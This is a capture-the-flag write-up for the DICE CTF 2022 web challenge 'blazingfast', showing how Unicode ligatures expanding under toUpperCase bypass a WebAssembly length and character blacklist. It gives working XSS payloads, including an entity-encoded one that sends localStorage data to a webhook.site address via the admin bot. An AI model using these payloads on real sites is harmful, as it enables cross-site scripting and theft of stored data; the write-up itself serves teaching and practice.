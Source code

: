 ```yaml
---
title: DICE CTF 2022 – blazingfast
date: '2022-02-06'
draft: false
authors: ['thebish0p']
tags: ['Web', 'DICE CTF 2022', 'XSS', 'Unicode']
summary: 'Bypassing length limitation with Unicode'
---
```


## blazingfast

> by larry
>
> I made a blazing fast MoCkInG CaSe converter!
>
> [blazingfast.mc.ax](blazingfast.mc.ax)
>
> [Admin Bot](https://admin-bot.mc.ax/blazingfast)
>
> Downloads
>
> [blazingfast.tar](https://static.dicega.ng/uploads/c37db76fc7e66f32dee53b48652868aefd79193c1b5936e1f2441e3c70cfcdfa/blazingfast.tar)
>
> [admin-bot.js](https://static.dicega.ng/uploads/1286aac5ffb57d27c1dc1e0221c7c3691e575181720449df62dff67d10ec6749/admin-bot.js)
>
> [blazingfast.c](https://static.dicega.ng/uploads/209c5168fc160763f28a23f23280f921c7e544fb87323726e48584b89d774825/blazingfast.c)

We start by noticing that we have a challenge link and an admin bot link which means this challenge is an XSS challenge. We start with browsing the website and testing it’s normal behaviour as shown below:

![website.png](/static/images/dice-ctf-2022/blazing-fast/website.png)

Moving to the source code, we start by analyzing `index.html`:

```javascript
let blazingfast = null

function mock(str) {
  blazingfast.init(str.length)

  if (str.length >= 1000) return 'Too long!'

  for (let c of str.toUpperCase()) {
    if (c.charCodeAt(0) > 128) return 'Nice try.'
    blazingfast.write(c.charCodeAt(0))
  }

  if (blazingfast.mock() == 1) {
    return 'No XSS for you!'
  } else {
    let mocking = '',
      buf = blazingfast.read()

    while (buf != 0) {
      mocking += String.fromCharCode(buf)
      buf = blazingfast.read()
    }

    return mocking
  }
}

function demo(str) {
  document.getElementById('result').innerHTML = mock(str)
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {
  blazingfast = instance.exports

  document.getElementById('demo-submit').onclick = () => {
    demo(document.getElementById('demo').value)
  }

  let query = new URLSearchParams(window.location.search).get('demo')

  if (query) {
    document.getElementById('demo').value = query
    demo(query)
  }
})
```

As you can see, we can input data in the `demo` parameter and the data provided will be processed by `blazingfast.mock()` which is originating from the `blazingfast.c` provided:

```C
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

Several checks are made on our input. Our input can’t be more than 1000 characters and a few characters are blacklisted: [`<`, `>`, `&`, `"`].

> After a lot of trial and error we had an idea that in order to bypass these checks and execute our JavaScript payloads we need to bypass the 1000 characters.

![too_long](/static/images/dice-ctf-2022/blazing-fast/too_long.png)

We stumbled upon an article talking about [Exploiting XSS with 20 characters limitation](https://jlajara.gitlab.io/web/2019/11/30/XSS_20_characters.html) by using unicode characters. In this article, the author gives us a great example:

> Notice that ﬀ characters is only one character but when browsers interpret it, it will be expanded as ff two characters.

We proceed by testing this idea by sending around 600 `ﬀ` which would unpack to 1200 characters. We don’t get any error as shown below:

![No Error](/static/images/dice-ctf-2022/blazing-fast/no_error.png)

This is because `"ﬃ".toUpperCase()` becomes `"FFI"`. The string written to WSAM module is the converted one (disregarding the memory allocated), but the length reported was of the original string. This discrepancy allowing us to write $3n+m$ characters to the memory with only $n+m$ bytes checked for blacklisted characters, thus bypassing the check.

We proceed by using this technique and adding to it our XSS payload to see if we can pop an alert:

```
 ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=alert(1)>
```

To our surprise, we get an error `ALERT is not defined`:

![ALERT_ERROR](/static/images/dice-ctf-2022/blazing-fast/ALERT_ERROR.png)

The issue here is that all our payload will be in upper case letters. We came up with a workaround by using XML encoding followed by URL encoding as following:

```
 ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

And we popped an alert!
![XSS Alert](/static/images/dice-ctf-2022/blazing-fast/alert_pop.png)

We continue by crafting a payload to extract the flag and send it back to our webhook.

```
<img src=x onerror=location.href='https://webhook.site/38689352-bda5-4841-80e3-4a48e1655deb?q='.toLowerCase()+localStorage.getItem('flag'.toLowerCase())>
```

After XML and URL encoding our input we send it to the admin bot as shown below:

```
ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ<img src=x onerror=&#X6c;&#X6f;&#X63;&#X61;&#X74;&#X69;&#X6f;&#X6e;.&#X68;&#X72;&#X65;&#X66;=&#X27;https://webhook.site/38689352-bda5-4841-80e3-4a48e1655deb?q=&#X27.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;()&#X2B;&#X6c;&#X6f;&#X63;&#X61;&#X6c;&#X53;&#X74;&#X6f;&#X72;&#X61;&#X67;&#X65;.&#X67;&#X65;&#X74;&#X49;&#X74;&#X65;&#X6d;(&#X27;flag&#X27;.&#X74;&#X6f;&#X4c;&#X6f;&#X77;&#X65;&#X72;&#X43;&#X61;&#X73;&#X65;())>
```

Finally we receive our flag from the server:

![SUCCESS](/static/images/dice-ctf-2022/blazing-fast/flag.png)
